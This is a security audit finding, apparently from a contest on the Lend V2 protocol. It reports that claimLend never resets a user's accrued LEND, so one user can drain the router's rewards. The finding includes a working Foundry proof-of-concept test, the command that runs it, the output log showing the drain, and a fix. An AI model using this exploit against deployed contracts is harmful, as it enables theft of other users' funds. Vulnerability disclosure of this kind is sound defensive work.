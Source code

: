 Short Golden Seagull

High

# Repeated claimLend calls drain all LEND because lendAccrued is not reset

### Summary

The [CoreRouter.claimLend(...)](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L402) function transfers out a user’s entire `lendAccrued` balance from `LendStorage` each time it is called, but never clears or reduces `lendAccrued[user]` afterward. 

As a result, an attacker can call `claimLend` repeatedly - receiving the same accrued LEND tokens over and over - until the `CoreRouter`’s LEND balance is fully drained. Other users are then unable to claim their legitimately accrued rewards.

### Root Cause

In `CoreRouter.claimLend(...)`, after calculating how much LEND a user has accrued (`lendStorage.lendAccrued[user]`), the code calls [grantLendInternal(user, accrued)](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L416-L425) to transfer that amount of LEND. 

However, the LEND accrued mapping is never reset ( `lendAccrued[user] = 0` ). Consequently, on the next invocation, `lendAccrued[user]` still holds the same value and the router will attempt to transfer it again.

### Internal Pre-conditions

- At least two users (incl. the attacker) have previously supplied or borrowed assets so that each has a non-zero `lendAccrued` balance.
- Time or block progression has occurred since their last supply/borrow, so that both users’ `lendAccrued` values are greater than zero.

### External Pre-conditions

None.

### Attack Path

1. Attacker waits for a reasonable time to have LEND accrued.
2. Attacker executes `claimLend(..)` multiple times until they drain the entire LEND balance or leave it with only dust left. 
3. Attacker can then proceed to use the LEND for staking.

### Impact

- **Complete LEND drain** - A single malicious user can drain the entire LEND token balance held by `CoreRouter` .
- **Rewards denial to other users** - Once drained, no one else can claim their accumulated LEND, effectively freezing the rewards distribution for everyone else.

### PoC

1. Add `import "forge-std/console.sol";` in import section of the `TestLendAccrual.t.sol` file

2. Add the following code into the `TestLendAccrual.t.sol` file:

```solidity
 function test_poc_attacker_can_drain_lend() public {
        // user 1 supplies 9x less than user2
        uint256 supplyAmountUser1 = 1000e18;
        uint256 supplyAmountUser2 = 9000e18;

        (, address lToken) = _supply(supplyAmountUser1, user1);
        _supply(supplyAmountUser2, user2);

        // Advance time
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Get initial LEND token balance
        address lendToken = lendtroller.getLendAddress();

        // ---------------- USER 1 ----------------
        vm.startPrank(user1);
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);

        // User 1 claims LEND 10 times - receiving 5x the accrued amount(due to lendAccrued not being reset)
        for (uint i = 0; i < 10; i++) {
            coreRouter.claimLend(holders, lTokenArray, false, true);
        }

        uint256 user1LendAccrued = lendStorage.lendAccrued(user1);
        uint256 user1FinalBalance = IERC20(lendToken).balanceOf(user1);

        console.log(
            "User1 Lend Accrued: %s, User1 Claimed Lend: %s",
            user1LendAccrued,
            user1FinalBalance
        );
        vm.stopPrank();

        // ---------------- USER 2 ----------------
        console.log(
            "CoreRouter Lend Balance After user1 claimLend: %s",
            IERC20(lendToken).balanceOf(address(coreRouter))
        );

        vm.startPrank(user2);
        holders[0] = user2;
        // User 2 attempts to claim his LEND, but is unable to because user1 has drained the CoreRouter from all the available LEND rewards
        coreRouter.claimLend(holders, lTokenArray, false, true);
        uint256 user2LendAccrued = lendStorage.lendAccrued(user2);
        uint256 user2LendBalance = IERC20(lendToken).balanceOf(user2);

        console.log(
            "User2 Lend Accrued: %s, User2 Claimed Lend: %s",
            user2LendAccrued,
            user2LendBalance
        );

        vm.stopPrank();
    }
```

3. Run the test with the following command:
```shell
forge test --mt test_poc_attacker_can_drain_lend -vv
```

4. Result log:
```shell
Ran 1 test for test/mocks/TestLendAccrual.t.sol:TestLendAccrual
[PASS] test_poc_attacker_can_drain_lend() (gas: 1281819)
Logs:
  User1 Lend Accrued: 10000000000000000, User1 Claimed Lend: 100000000000000000
  CoreRouter Lend Balance After user1 claimLend: 0
  User2 Lend Accrued: 90000000000000000, User2 Claimed Lend: 0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.55ms (3.34ms CPU time)
```

### Mitigation

Modify `CoreRouter.claimLend(...)` so that each user’s `lendAccrued[user]` is cleared (or reduced by the transferred amount) immediately after transferring.